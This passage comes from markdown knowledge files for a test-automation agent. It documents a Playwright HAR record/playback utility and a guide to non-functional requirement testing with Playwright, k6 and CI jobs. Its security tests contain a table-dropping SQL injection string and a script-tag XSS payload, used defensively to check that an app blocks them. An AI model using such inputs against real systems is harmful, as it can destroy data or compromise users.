
// Set mode in test file (recommended)
process.env.PW_NET_MODE = 'playback'; // or 'record'

test('CRUD operations work offline', async ({ page, context, networkRecorder }) => {
  // Setup recorder (records or plays back based on PW_NET_MODE)
  await networkRecorder.setup(context);

  await page.goto('/');

  // First time (record mode): Records all network traffic to HAR
  // Subsequent runs (playback mode): Plays back from HAR (no backend!)
  await page.fill('#movie-name', 'Inception');
  await page.click('#add-movie');

  // Intelligent CRUD detection makes this work offline!
  await expect(page.getByText('Inception')).toBeVisible();
});
```

**Key Points**:

- `PW_NET_MODE=record` captures traffic to HAR files
- `PW_NET_MODE=playback` replays from HAR files
- Set mode in test file or via environment variable
- HAR files auto-organized by test name
- Stateful mocking detects CRUD operations

### Example 2: Complete CRUD Flow with HAR

**Context**: Full create-read-update-delete flow that works completely offline.

**Implementation**:

```typescript
process.env.PW_NET_MODE = 'playback';

test.describe('Movie CRUD - offline with network recorder', () => {
  test.beforeEach(async ({ page, networkRecorder, context }) => {
    await networkRecorder.setup(context);
    await page.goto('/');
  });

  test('should add, edit, delete movie browser-only', async ({ page, interceptNetworkCall }) => {
    // Create
    await page.fill('#movie-name', 'Inception');
    await page.fill('#year', '2010');
    await page.click('#add-movie');

    // Verify create (reads from stateful HAR)
    await expect(page.getByText('Inception')).toBeVisible();

    // Update
    await page.getByText('Inception').click();
    await page.fill('#movie-name', "Inception Director's Cut");

    const updateCall = interceptNetworkCall({
      method: 'PUT',
      url: '/movies/*',
    });

    await page.click('#save');
    await updateCall; // Wait for update

    // Verify update (HAR reflects state change!)
    await page.click('#back');
    await expect(page.getByText("Inception Director's Cut")).toBeVisible();

    // Delete
    await page.click(`[data-testid="delete-Inception Director's Cut"]`);

    // Verify delete (HAR reflects removal!)
    await expect(page.getByText("Inception Director's Cut")).not.toBeVisible();
  });
});
```

**Key Points**:

- Full CRUD operations work offline
- Stateful HAR mocking tracks creates/updates/deletes
- Combine with `interceptNetworkCall` for deterministic waits
- First run records, subsequent runs replay

### Example 3: Common Patterns

**Recording Only API Calls**:

```typescript
await networkRecorder.setup(context, {
  recording: {
    urlFilter: /\/api\//, // Only record API calls, ignore static assets
  },
});
```

**Playback with Fallback**:

```typescript
await networkRecorder.setup(context, {
  playback: {
    fallback: true, // Fall back to live requests if HAR entry missing
  },
});
```

**Custom HAR File Location**:

```typescript
await networkRecorder.setup(context, {
  harFile: {
    harDir: 'recordings/api-calls',
    baseName: 'user-journey',
    organizeByTestFile: false, // Optional: flatten directory structure
  },
});
```

**Directory Organization:**

- `organizeByTestFile: true` (default): `har-files/test-file-name/baseName-test-title.har`
- `organizeByTestFile: false`: `har-files/baseName-test-title.har`

### Example 4: Response Content Storage - Embed vs Attach

**Context**: Choose how response content is stored in HAR files.

**`embed` (Default - Recommended):**

```typescript
await networkRecorder.setup(context, {
  recording: {
    content: 'embed', // Store content inline (default)
  },
});
```

**Pros:**

- Single self-contained file - Easy to share, version control
- Better for small-medium responses (API JSON, HTML pages)
- HAR specification compliant

**Cons:**

- Larger HAR files
- Not ideal for large binary content (images, videos)

**`attach` (Alternative):**

```typescript
await networkRecorder.setup(context, {
  recording: {
    content: 'attach', // Store content separately
  },
});
```

**Pros:**

- Smaller HAR files
- Better for large responses (images, videos, documents)

**Cons:**

- Multiple files to manage
- Harder to share

**When to Use Each:**

| Use `embed` (default) when          | Use `attach` when               |
| ----------------------------------- | ------------------------------- |
| Recording API responses (JSON, XML) | Recording large images, videos  |
| Small to medium HTML pages          | HAR file size >50MB             |
| You want a single, portable file    | Maximum disk efficiency needed  |
| Sharing HAR files with team         | Working with ZIP archive output |

### Example 5: Cross-Environment Compatibility (URL Mapping)

**Context**: Record in dev environment, play back in CI with different base URLs.

**The Problem**: HAR files contain URLs for the recording environment (e.g., `dev.example.com`). Playing back on a different environment fails.

**Simple Hostname Mapping:**

```typescript
await networkRecorder.setup(context, {
  playback: {
    urlMapping: {
      hostMapping: {
        'preview.example.com': 'dev.example.com',
        'staging.example.com': 'dev.example.com',
        'localhost:3000': 'dev.example.com',
      },
    },
  },
});
```

**Pattern-Based Mapping (Recommended):**

```typescript
await networkRecorder.setup(context, {
  playback: {
    urlMapping: {
      patterns: [
        // Map any preview-XXXX subdomain to dev
        { match: /preview-\d+\.example\.com/, replace: 'dev.example.com' },
      ],
    },
  },
});
```

**Custom Function:**

```typescript
await networkRecorder.setup(context, {
  playback: {
    urlMapping: {
      mapUrl: (url) => url.replace('staging.example.com', 'dev.example.com'),
    },
  },
});
```

**Complex Multi-Environment Example:**

```typescript
await networkRecorder.setup(context, {
  playback: {
    urlMapping: {
      hostMapping: {
        'localhost:3000': 'admin.example.com',
        'admin-staging.example.com': 'admin.example.com',
        'admin.example.com': 'admin.example.com',
      },
      patterns: [
        { match: /admin-\d+\.example\.com/, replace: 'admin.example.com' },
        { match: /admin-staging-pr-\w+-\d\.example\.com/, replace: 'admin.example.com' },
      ],
    },
  },
});
```

**Benefits:**

- Record once on dev, all environments map back to recordings
- CORS headers automatically updated based on request origin
- Debug with: `LOG_LEVEL=debug npm run test`

## Why Use This Instead of Native Playwright?

| Native Playwright (`routeFromHAR`) | network-recorder Utility       |
| ---------------------------------- | ------------------------------ |
| ~80 lines setup boilerplate        | ~5 lines total                 |
| Manual HAR file management         | Automatic file organization    |
| Complex setup/teardown             | Automatic cleanup via fixtures |
| **Read-only tests only**           | **Full CRUD support**          |
| **Stateless**                      | **Stateful mocking**           |
| Manual URL mapping                 | Automatic environment mapping  |

**The game-changer: Stateful CRUD detection**

Native Playwright HAR playback is stateless - a POST create followed by GET list won't show the created item. This utility intelligently tracks CRUD operations in memory to reflect state changes, making offline tests behave like real APIs.

## How Stateful CRUD Detection Works

When in playback mode, the Network Recorder automatically analyzes your HAR file to detect CRUD patterns. If it finds:

- Multiple GET requests to the same resource endpoint (e.g., `/movies`)
- Mutation operations (POST, PUT, DELETE) to those resources
- Evidence of state changes between identical requests

It automatically switches from static HAR playback to an intelligent stateful mock that:

- Maintains state across requests
- Auto-generates IDs for new resources
- Returns proper 404s for deleted resources
- Supports polling scenarios where state changes over time

**This happens automatically - no configuration needed!**

## API Reference

### NetworkRecorder Methods

| Method               | Return Type              | Description                                   |
| -------------------- | ------------------------ | --------------------------------------------- |
| `setup(context)`     | `Promise<void>`          | Sets up recording/playback on browser context |
| `cleanup()`          | `Promise<void>`          | Flushes data to disk and cleans up memory     |
| `getContext()`       | `NetworkRecorderContext` | Gets current recorder context information     |
| `getStatusMessage()` | `string`                 | Gets human-readable status message            |
| `getHarStats()`      | `Promise<HarFileStats>`  | Gets HAR file statistics and metadata         |

### Understanding `cleanup()`

The `cleanup()` method performs memory and resource cleanup - **it does NOT delete HAR files**:

**What it does:**

- Flushes recorded data to disk (writes HAR file in recording mode)
- Releases file locks
- Clears in-memory data
- Resets internal state

**What it does NOT do:**

- Delete HAR files from disk
- Remove recorded network traffic
- Clear browser context or cookies

### Configuration Options

```typescript
type NetworkRecorderConfig = {
  harFile?: {
    harDir?: string; // Directory for HAR files (default: 'har-files')
    baseName?: string; // Base name for HAR files (default: 'network-traffic')
    organizeByTestFile?: boolean; // Organize by test file (default: true)
  };

  recording?: {
    content?: 'embed' | 'attach'; // Response content handling (default: 'embed')
    urlFilter?: string | RegExp; // URL filter for recording
    update?: boolean; // Update existing HAR files (default: false)
  };

  playback?: {
    fallback?: boolean; // Fall back to live requests (default: false)
    urlFilter?: string | RegExp; // URL filter for playback
    updateMode?: boolean; // Update mode during playback (default: false)
  };

  forceMode?: 'record' | 'playback' | 'disabled';
};
```

## Environment Configuration

Control the recording mode using the `PW_NET_MODE` environment variable:

```bash
# Record mode - captures network traffic to HAR files
PW_NET_MODE=record npm run test:pw

# Playback mode - replays network traffic from HAR files
PW_NET_MODE=playback npm run test:pw

# Disabled mode - no network recording/playback
PW_NET_MODE=disabled npm run test:pw

# Default behavior (when PW_NET_MODE is empty/unset) - same as disabled
npm run test:pw
```

**Tip**: We recommend setting `process.env.PW_NET_MODE` directly in your test file for better control.

## Troubleshooting

### HAR File Not Found

If you see "HAR file not found" errors during playback:

1. Ensure you've recorded the test first with `PW_NET_MODE=record`
2. Check the HAR file exists in the expected location (usually `har-files/`)
3. Enable fallback mode: `playback: { fallback: true }`

### Authentication and Network Recording

The network recorder works seamlessly with authentication:

```typescript
test('Authenticated recording', async ({ page, context, authSession, networkRecorder }) => {
  // First authenticate
  await authSession.login('testuser', 'password');

  // Then setup network recording with authenticated context
  await networkRecorder.setup(context);

  // Test authenticated flows
  await page.goto('/dashboard');
});
```

### Concurrent Test Issues

The recorder includes built-in file locking for safe parallel execution. Each test gets its own HAR file based on the test name.

## Integration with Other Utilities

**With interceptNetworkCall (deterministic waits):**

```typescript
test('use both utilities', async ({ page, context, networkRecorder, interceptNetworkCall }) => {
  await networkRecorder.setup(context);

  const createCall = interceptNetworkCall({
    method: 'POST',
    url: '/api/movies',
  });

  await page.click('#add-movie');
  await createCall; // Wait for create (works with HAR!)

  // Network recorder provides playback, intercept provides determinism
});
```

## Related Fragments

- `overview.md` - Installation and fixture patterns
- `intercept-network-call.md` - Combine for deterministic offline tests
- `auth-session.md` - Record authenticated traffic
- `network-first.md` - Core pattern for intercept-before-navigate

## Anti-Patterns

**DON'T mix record and playback in same test:**

```typescript
process.env.PW_NET_MODE = 'record';
// ... some test code ...
process.env.PW_NET_MODE = 'playback'; // Don't switch mid-test
```

**DO use one mode per test:**

```typescript
process.env.PW_NET_MODE = 'playback'; // Set once at top

test('my test', async ({ page, context, networkRecorder }) => {
  await networkRecorder.setup(context);
  // Entire test uses playback mode
});
```

**DON'T forget to call setup:**

```typescript
test('broken', async ({ page, networkRecorder }) => {
  await page.goto('/'); // HAR not active!
});
```

**DO always call setup before navigation:**

```typescript
test('correct', async ({ page, context, networkRecorder }) => {
  await networkRecorder.setup(context); // Must setup first
  await page.goto('/'); // Now HAR is active
});
```
```

## File: `src/agents/bmad-tea/resources/knowledge/nfr-criteria.md`
```markdown
# Non-Functional Requirements (NFR) Criteria

## Principle

Non-functional requirements (security, performance, reliability, maintainability) are **validated through automated tests**, not checklists. NFR assessment uses objective pass/fail criteria tied to measurable thresholds. Ambiguous requirements default to CONCERNS until clarified.

## Rationale

**The Problem**: Teams ship features that "work" functionally but fail under load, expose security vulnerabilities, or lack error recovery. NFRs are treated as optional "nice-to-haves" instead of release blockers.

**The Solution**: Define explicit NFR criteria with automated validation. Security tests verify auth/authz and secret handling. Performance tests enforce SLO/SLA thresholds with profiling evidence. Reliability tests validate error handling, retries, and health checks. Maintainability is measured by test coverage, code duplication, and observability.

**Why This Matters**:

- Prevents production incidents (security breaches, performance degradation, cascading failures)
- Provides objective release criteria (no subjective "feels fast enough")
- Automates compliance validation (audit trail for regulated environments)
- Forces clarity on ambiguous requirements (default to CONCERNS)

## Pattern Examples

### Example 1: Security NFR Validation (Auth, Secrets, OWASP)

**Context**: Automated security tests enforcing authentication, authorization, and secret handling

**Implementation**:

```typescript
// tests/nfr/security.spec.ts
import { test, expect } from '@playwright/test';

test.describe('Security NFR: Authentication & Authorization', () => {
  test('unauthenticated users cannot access protected routes', async ({ page }) => {
    // Attempt to access dashboard without auth
    await page.goto('/dashboard');

    // Should redirect to login (not expose data)
    await expect(page).toHaveURL(/\/login/);
    await expect(page.getByText('Please sign in')).toBeVisible();

    // Verify no sensitive data leaked in response
    const pageContent = await page.content();
    expect(pageContent).not.toContain('user_id');
    expect(pageContent).not.toContain('api_key');
  });

  test('JWT tokens expire after 15 minutes', async ({ page, request }) => {
    // Login and capture token
    await page.goto('/login');
    await page.getByLabel('Email').fill('test@example.com');
    await page.getByLabel('Password').fill('ValidPass123!');
    await page.getByRole('button', { name: 'Sign In' }).click();

    const token = await page.evaluate(() => localStorage.getItem('auth_token'));
    expect(token).toBeTruthy();

    // Wait 16 minutes (use mock clock in real tests)
    await page.clock.fastForward('00:16:00');

    // Token should be expired, API call should fail
    const response = await request.get('/api/user/profile', {
      headers: { Authorization: `Bearer ${token}` },
    });

    expect(response.status()).toBe(401);
    const body = await response.json();
    expect(body.error).toContain('expired');
  });

  test('passwords are never logged or exposed in errors', async ({ page }) => {
    // Trigger login error
    await page.goto('/login');
    await page.getByLabel('Email').fill('test@example.com');
    await page.getByLabel('Password').fill('WrongPassword123!');

    // Monitor console for password leaks
    const consoleLogs: string[] = [];
    page.on('console', (msg) => consoleLogs.push(msg.text()));

    await page.getByRole('button', { name: 'Sign In' }).click();

    // Error shown to user (generic message)
    await expect(page.getByText('Invalid credentials')).toBeVisible();

    // Verify password NEVER appears in console, DOM, or network
    const pageContent = await page.content();
    expect(pageContent).not.toContain('WrongPassword123!');
    expect(consoleLogs.join('\n')).not.toContain('WrongPassword123!');
  });

  test('RBAC: users can only access resources they own', async ({ page, request }) => {
    // Login as User A
    const userAToken = await login(request, 'userA@example.com', 'password');

    // Try to access User B's order
    const response = await request.get('/api/orders/user-b-order-id', {
      headers: { Authorization: `Bearer ${userAToken}` },
    });

    expect(response.status()).toBe(403); // Forbidden
    const body = await response.json();
    expect(body.error).toContain('insufficient permissions');
  });

  test('SQL injection attempts are blocked', async ({ page }) => {
    await page.goto('/search');

    // Attempt SQL injection
    await page.getByPlaceholder('Search products').fill("'; DROP TABLE users; --");
    await page.getByRole('button', { name: 'Search' }).click();

    // Should return empty results, NOT crash or expose error
    await expect(page.getByText('No results found')).toBeVisible();

    // Verify app still works (table not dropped)
    await page.goto('/dashboard');
    await expect(page.getByText('Welcome')).toBeVisible();
  });

  test('XSS attempts are sanitized', async ({ page }) => {
    await page.goto('/profile/edit');

    // Attempt XSS injection
    const xssPayload = '<script>alert("XSS")</script>';
    await page.getByLabel('Bio').fill(xssPayload);
    await page.getByRole('button', { name: 'Save' }).click();

    // Reload and verify XSS is escaped (not executed)
    await page.reload();
    const bio = await page.getByTestId('user-bio').textContent();

    // Text should be escaped, script should NOT execute
    expect(bio).toContain('&lt;script&gt;');
    expect(bio).not.toContain('<script>');
  });
});

// Helper
async function login(request: any, email: string, password: string): Promise<string> {
  const response = await request.post('/api/auth/login', {
    data: { email, password },
  });
  const body = await response.json();
  return body.token;
}
```

**Key Points**:

- Authentication: Unauthenticated access redirected (not exposed)
- Authorization: RBAC enforced (403 for insufficient permissions)
- Token expiry: JWT expires after 15 minutes (automated validation)
- Secret handling: Passwords never logged or exposed in errors
- OWASP Top 10: SQL injection and XSS blocked (input sanitization)

**Security NFR Criteria**:

- ✅ PASS: All 6 tests green (auth, authz, token expiry, secret handling, SQL injection, XSS)
- ⚠️ CONCERNS: 1-2 tests failing with mitigation plan and owner assigned
- ❌ FAIL: Critical exposure (unauthenticated access, password leak, SQL injection succeeds)

---

### Example 2: Performance NFR Validation (k6 Load Testing for SLO/SLA)

**Context**: Use k6 for load testing, stress testing, and SLO/SLA enforcement (NOT Playwright)

**Implementation**:

```javascript
// tests/nfr/performance.k6.js
import http from 'k6/http';
import { check, sleep } from 'k6';
import { Rate, Trend } from 'k6/metrics';

// Custom metrics
const errorRate = new Rate('errors');
const apiDuration = new Trend('api_duration');

// Performance thresholds (SLO/SLA)
export const options = {
  stages: [
    { duration: '1m', target: 50 }, // Ramp up to 50 users
    { duration: '3m', target: 50 }, // Stay at 50 users for 3 minutes
    { duration: '1m', target: 100 }, // Spike to 100 users
    { duration: '3m', target: 100 }, // Stay at 100 users
    { duration: '1m', target: 0 }, // Ramp down
  ],
  thresholds: {
    // SLO: 95% of requests must complete in <500ms
    http_req_duration: ['p(95)<500'],
    // SLO: Error rate must be <1%
    errors: ['rate<0.01'],
    // SLA: API endpoints must respond in <1s (99th percentile)
    api_duration: ['p(99)<1000'],
  },
};

export default function () {
  // Test 1: Homepage load performance
  const homepageResponse = http.get(`${__ENV.BASE_URL}/`);
  check(homepageResponse, {
    'homepage status is 200': (r) => r.status === 200,
    'homepage loads in <2s': (r) => r.timings.duration < 2000,
  });
  errorRate.add(homepageResponse.status !== 200);

  // Test 2: API endpoint performance
  const apiResponse = http.get(`${__ENV.BASE_URL}/api/products?limit=10`, {
    headers: { Authorization: `Bearer ${__ENV.API_TOKEN}` },
  });
  check(apiResponse, {
    'API status is 200': (r) => r.status === 200,
    'API responds in <500ms': (r) => r.timings.duration < 500,
  });
  apiDuration.add(apiResponse.timings.duration);
  errorRate.add(apiResponse.status !== 200);

  // Test 3: Search endpoint under load
  const searchResponse = http.get(`${__ENV.BASE_URL}/api/search?q=laptop&limit=100`);
  check(searchResponse, {
    'search status is 200': (r) => r.status === 200,
    'search responds in <1s': (r) => r.timings.duration < 1000,
    'search returns results': (r) => JSON.parse(r.body).results.length > 0,
  });
  errorRate.add(searchResponse.status !== 200);

  sleep(1); // Realistic user think time
}

// Threshold validation (run after test)
export function handleSummary(data) {
  const p95Duration = data.metrics.http_req_duration.values['p(95)'];
  const p99ApiDuration = data.metrics.api_duration.values['p(99)'];
  const errorRateValue = data.metrics.errors.values.rate;

  console.log(`P95 request duration: ${p95Duration.toFixed(2)}ms`);
  console.log(`P99 API duration: ${p99ApiDuration.toFixed(2)}ms`);
  console.log(`Error rate: ${(errorRateValue * 100).toFixed(2)}%`);

  return {
    'summary.json': JSON.stringify(data),
    stdout: `
Performance NFR Results:
- P95 request duration: ${p95Duration < 500 ? '✅ PASS' : '❌ FAIL'} (${p95Duration.toFixed(2)}ms / 500ms threshold)
- P99 API duration: ${p99ApiDuration < 1000 ? '✅ PASS' : '❌ FAIL'} (${p99ApiDuration.toFixed(2)}ms / 1000ms threshold)
- Error rate: ${errorRateValue < 0.01 ? '✅ PASS' : '❌ FAIL'} (${(errorRateValue * 100).toFixed(2)}% / 1% threshold)
    `,
  };
}
```

**Run k6 tests:**

```bash
# Local smoke test (10 VUs, 30s)
k6 run --vus 10 --duration 30s tests/nfr/performance.k6.js

# Full load test (stages defined in script)
k6 run tests/nfr/performance.k6.js

# CI integration with thresholds
k6 run --out json=performance-results.json tests/nfr/performance.k6.js
```

**Key Points**:

- **k6 is the right tool** for load testing (NOT Playwright)
- SLO/SLA thresholds enforced automatically (`p(95)<500`, `rate<0.01`)
- Realistic load simulation (ramp up, sustained load, spike testing)
- Comprehensive metrics (p50, p95, p99, error rate, throughput)
- CI-friendly (JSON output, exit codes based on thresholds)

**Performance NFR Criteria**:

- ✅ PASS: All SLO/SLA targets met with k6 profiling evidence (p95 < 500ms, error rate < 1%)
- ⚠️ CONCERNS: Trending toward limits (e.g., p95 = 480ms approaching 500ms) or missing baselines
- ❌ FAIL: SLO/SLA breached (e.g., p95 > 500ms) or error rate > 1%

**Performance Testing Levels (from Test Architect course):**

- **Load testing**: System behavior under expected load
- **Stress testing**: System behavior under extreme load (breaking point)
- **Spike testing**: Sudden load increases (traffic spikes)
- **Endurance/Soak testing**: System behavior under sustained load (memory leaks, resource exhaustion)
- **Benchmarking**: Baseline measurements for comparison

**Note**: Playwright can validate **perceived performance** (Core Web Vitals via Lighthouse), but k6 validates **system performance** (throughput, latency, resource limits under load)

---

### Example 3: Reliability NFR Validation (Playwright for UI Resilience)

**Context**: Automated reliability tests validating graceful degradation and recovery paths

**Implementation**:

```typescript
// tests/nfr/reliability.spec.ts
import { test, expect } from '@playwright/test';

test.describe('Reliability NFR: Error Handling & Recovery', () => {
  test('app remains functional when API returns 500 error', async ({ page, context }) => {
    // Mock API failure
    await context.route('**/api/products', (route) => {
      route.fulfill({ status: 500, body: JSON.stringify({ error: 'Internal Server Error' }) });
    });

    await page.goto('/products');

    // User sees error message (not blank page or crash)
    await expect(page.getByText('Unable to load products. Please try again.')).toBeVisible();
    await expect(page.getByRole('button', { name: 'Retry' })).toBeVisible();

    // App navigation still works (graceful degradation)
    await page.getByRole('link', { name: 'Home' }).click();
    await expect(page).toHaveURL('/');
  });

  test('API client retries on transient failures (3 attempts)', async ({ page, context }) => {
    let attemptCount = 0;

    await context.route('**/api/checkout', (route) => {
      attemptCount++;

      // Fail first 2 attempts, succeed on 3rd
      if (attemptCount < 3) {
        route.fulfill({ status: 503, body: JSON.stringify({ error: 'Service Unavailable' }) });
      } else {
        route.fulfill({ status: 200, body: JSON.stringify({ orderId: '12345' }) });
      }
    });

    await page.goto('/checkout');
    await page.getByRole('button', { name: 'Place Order' }).click();

    // Should succeed after 3 attempts
    await expect(page.getByText('Order placed successfully')).toBeVisible();
    expect(attemptCount).toBe(3);
  });

  test('app handles network disconnection gracefully', async ({ page, context }) => {
    await page.goto('/dashboard');

    // Simulate offline mode
    await context.setOffline(true);

    // Trigger action requiring network
    await page.getByRole('button', { name: 'Refresh Data' }).click();

    // User sees offline indicator (not crash)
    await expect(page.getByText('You are offline. Changes will sync when reconnected.')).toBeVisible();

    // Reconnect
    await context.setOffline(false);
    await page.getByRole('button', { name: 'Refresh Data' }).click();

    // Data loads successfully
    await expect(page.getByText('Data updated')).toBeVisible();
  });

  test('health check endpoint returns service status', async ({ request }) => {
    const response = await request.get('/api/health');

    expect(response.status()).toBe(200);

    const health = await response.json();
    expect(health).toHaveProperty('status', 'healthy');
    expect(health).toHaveProperty('timestamp');
    expect(health).toHaveProperty('services');

    // Verify critical services are monitored
    expect(health.services).toHaveProperty('database');
    expect(health.services).toHaveProperty('cache');
    expect(health.services).toHaveProperty('queue');

    // All services should be UP
    expect(health.services.database.status).toBe('UP');
    expect(health.services.cache.status).toBe('UP');
    expect(health.services.queue.status).toBe('UP');
  });

  test('circuit breaker opens after 5 consecutive failures', async ({ page, context }) => {
    let failureCount = 0;

    await context.route('**/api/recommendations', (route) => {
      failureCount++;
      route.fulfill({ status: 500, body: JSON.stringify({ error: 'Service Error' }) });
    });

    await page.goto('/product/123');

    // Wait for circuit breaker to open (fallback UI appears)
    await expect(page.getByText('Recommendations temporarily unavailable')).toBeVisible({ timeout: 10000 });

    // Verify circuit breaker stopped making requests after threshold (should be ≤5)
    expect(failureCount).toBeLessThanOrEqual(5);
  });

  test('rate limiting gracefully handles 429 responses', async ({ page, context }) => {
    let requestCount = 0;

    await context.route('**/api/search', (route) => {
      requestCount++;

      if (requestCount > 10) {
        // Rate limit exceeded
        route.fulfill({
          status: 429,
          headers: { 'Retry-After': '5' },
          body: JSON.stringify({ error: 'Rate limit exceeded' }),
        });
      } else {
        route.fulfill({ status: 200, body: JSON.stringify({ results: [] }) });
      }
    });

    await page.goto('/search');

    // Make 15 search requests rapidly
    for (let i = 0; i < 15; i++) {
      await page.getByPlaceholder('Search').fill(`query-${i}`);
      await page.getByRole('button', { name: 'Search' }).click();
    }

    // User sees rate limit message (not crash)
    await expect(page.getByText('Too many requests. Please wait a moment.')).toBeVisible();
  });
});
```

**Key Points**:

- Error handling: Graceful degradation (500 error → user-friendly message + retry button)
- Retries: 3 attempts on transient failures (503 → eventual success)
- Offline handling: Network disconnection detected (sync when reconnected)
- Health checks: `/api/health` monitors database, cache, queue
- Circuit breaker: Opens after 5 failures (fallback UI, stop retries)
- Rate limiting: 429 response handled (Retry-After header respected)

**Reliability NFR Criteria**:

- ✅ PASS: Error handling, retries, health checks verified (all 6 tests green)
- ⚠️ CONCERNS: Partial coverage (e.g., missing circuit breaker) or no telemetry
- ❌ FAIL: No recovery path (500 error crashes app) or unresolved crash scenarios

---

### Example 4: Maintainability NFR Validation (CI Tools, Not Playwright)

**Context**: Use proper CI tools for code quality validation (coverage, duplication, vulnerabilities)

**Implementation**:

```yaml
# .github/workflows/nfr-maintainability.yml
name: NFR - Maintainability

on: [push, pull_request]

jobs:
  test-coverage:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4

      - name: Install dependencies
        run: npm ci

      - name: Run tests with coverage
        run: npm run test:coverage

      - name: Check coverage threshold (80% minimum)
        run: |
          COVERAGE=$(jq '.total.lines.pct' coverage/coverage-summary.json)
          echo "Coverage: $COVERAGE%"
          if (( $(echo "$COVERAGE < 80" | bc -l) )); then
            echo "❌ FAIL: Coverage $COVERAGE% below 80% threshold"
            exit 1
          else
            echo "✅ PASS: Coverage $COVERAGE% meets 80% threshold"
          fi

  code-duplication:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4

      - name: Check code duplication (<5% allowed)
        run: |
          npx jscpd src/ --threshold 5 --format json --output duplication.json
          DUPLICATION=$(jq '.statistics.total.percentage' duplication.json)
          echo "Duplication: $DUPLICATION%"
          if (( $(echo "$DUPLICATION >= 5" | bc -l) )); then
            echo "❌ FAIL: Duplication $DUPLICATION% exceeds 5% threshold"
            exit 1
          else
            echo "✅ PASS: Duplication $DUPLICATION% below 5% threshold"
          fi

  vulnerability-scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4

      - name: Install dependencies
        run: npm ci

      - name: Run npm audit (no critical/high vulnerabilities)
        run: |
          npm audit --json > audit.json || true
          CRITICAL=$(jq '.metadata.vulnerabilities.critical' audit.json)
          HIGH=$(jq '.metadata.vulnerabilities.high' audit.json)
          echo "Critical: $CRITICAL, High: $HIGH"
          if [ "$CRITICAL" -gt 0 ] || [ "$HIGH" -gt 0 ]; then
            echo "❌ FAIL: Found $CRITICAL critical and $HIGH high vulnerabilities"
            npm audit
            exit 1
          else
            echo "✅ PASS: No critical/high vulnerabilities"
          fi
```

**Playwright Tests for Observability (E2E Validation):**

```typescript
// tests/nfr/observability.spec.ts
import { test, expect } from '@playwright/test';

test.describe('Maintainability NFR: Observability Validation', () => {
  test('critical errors are reported to monitoring service', async ({ page, context }) => {
    const sentryEvents: any[] = [];

    // Mock Sentry SDK to verify error tracking
    await context.addInitScript(() => {
      (window as any).Sentry = {
        captureException: (error: Error) => {
          console.log('SENTRY_CAPTURE:', JSON.stringify({ message: error.message, stack: error.stack }));
        },
      };
    });

    page.on('console', (msg) => {
      if (msg.text().includes('SENTRY_CAPTURE:')) {
        sentryEvents.push(JSON.parse(msg.text().replace('SENTRY_CAPTURE:', '')));
      }
    });

    // Trigger error by mocking API failure
    await context.route('**/api/products', (route) => {
      route.fulfill({ status: 500, body: JSON.stringify({ error: 'Database Error' }) });
    });

    await page.goto('/products');

    // Wait for error UI and Sentry capture
    await expect(page.getByText('Unable to load products')).toBeVisible();

    // Verify error was captured by monitoring
    expect(sentryEvents.length).toBeGreaterThan(0);
    expect(sentryEvents[0]).toHaveProperty('message');
    expect(sentryEvents[0]).toHaveProperty('stack');
  });

  test('API response times are tracked in telemetry', async ({ request }) => {
    const response = await request.get('/api/products?limit=10');

    expect(response.ok()).toBeTruthy();

    // Verify Server-Timing header for APM (Application Performance Monitoring)
    const serverTiming = response.headers()['server-timing'];

    expect(serverTiming).toBeTruthy();
    expect(serverTiming).toContain('db'); // Database query time
    expect(serverTiming).toContain('total'); // Total processing time
  });

  test('structured logging present in application', async ({ request }) => {
    // Make API call that generates logs
    const response = await request.post('/api/orders', {
      data: { productId: '123', quantity: 2 },
    });

    expect(response.ok()).toBeTruthy();

    // Note: In real scenarios, validate logs in monitoring system (Datadog, CloudWatch)
    // This test validates the logging contract exists (Server-Timing, trace IDs in headers)
    const traceId = response.headers()['x-trace-id'];
    expect(traceId).toBeTruthy(); // Confirms structured logging with correlation IDs
  });
});
```

**Key Points**:

- **Coverage/duplication**: CI jobs (GitHub Actions), not Playwright tests
- **Vulnerability scanning**: npm audit in CI, not Playwright tests
- **Observability**: Playwright validates error tracking (Sentry) and telemetry headers
- **Structured logging**: Validate logging contract (trace IDs, Server-Timing headers)
- **Separation of concerns**: Build-time checks (coverage, audit) vs runtime checks (error tracking, telemetry)

**Maintainability NFR Criteria**:

- ✅ PASS: Clean code (80%+ coverage from CI, <5% duplication from CI), observability validated in E2E, no critical vulnerabilities from npm audit
- ⚠️ CONCERNS: Duplication >5%, coverage 60-79%, or unclear ownership
- ❌ FAIL: Absent tests (<60%), tangled implementations (>10% duplication), or no observability

---

## NFR Assessment Checklist

Before release gate:

- [ ] **Security** (Playwright E2E + Security Tools):
  - [ ] Auth/authz tests green (unauthenticated redirect, RBAC enforced)
  - [ ] Secrets never logged or exposed in errors
  - [ ] OWASP Top 10 validated (SQL injection blocked, XSS sanitized)
  - [ ] Security audit completed (vulnerability scan, penetration test if applicable)

- [ ] **Performance** (k6 Load Testing):
  - [ ] SLO/SLA targets met with k6 evidence (p95 <500ms, error rate <1%)
  - [ ] Load testing completed (expected load)
  - [ ] Stress testing completed (breaking point identified)
  - [ ] Spike testing completed (handles traffic spikes)
  - [ ] Endurance testing completed (no memory leaks under sustained load)

- [ ] **Reliability** (Playwright E2E + API Tests):
  - [ ] Error handling graceful (500 → user-friendly message + retry)
  - [ ] Retries implemented (3 attempts on transient failures)
  - [ ] Health checks monitored (/api/health endpoint)
  - [ ] Circuit breaker tested (opens after failure threshold)
  - [ ] Offline handling validated (network disconnection graceful)

- [ ] **Maintainability** (CI Tools):
  - [ ] Test coverage ≥80% (from CI coverage report)
  - [ ] Code duplication <5% (from jscpd CI job)
  - [ ] No critical/high vulnerabilities (from npm audit CI job)
  - [ ] Structured logging validated (Playwright validates telemetry headers)
  - [ ] Error tracking configured (Sentry/monitoring integration validated)

- [ ] **Ambiguous requirements**: Default to CONCERNS (force team to clarify thresholds and evidence)
- [ ] **NFR criteria documented**: Measurable thresholds defined (not subjective "fast enough")
- [ ] **Automated validation**: NFR tests run in CI pipeline (not manual checklists)
- [ ] **Tool selection**: Right tool for each NFR (k6 for performance, Playwright for security/reliability E2E, CI tools for maintainability)

## NFR Gate Decision Matrix

| Category            | PASS Criteria                                | CONCERNS Criteria                            | FAIL Criteria                                  |
| ------------------- | -------------------------------------------- | -------------------------------------------- | ---------------------------------------------- |
| **Security**        | Auth/authz, secret handling, OWASP verified  | Minor gaps with clear owners                 | Critical exposure or missing controls          |
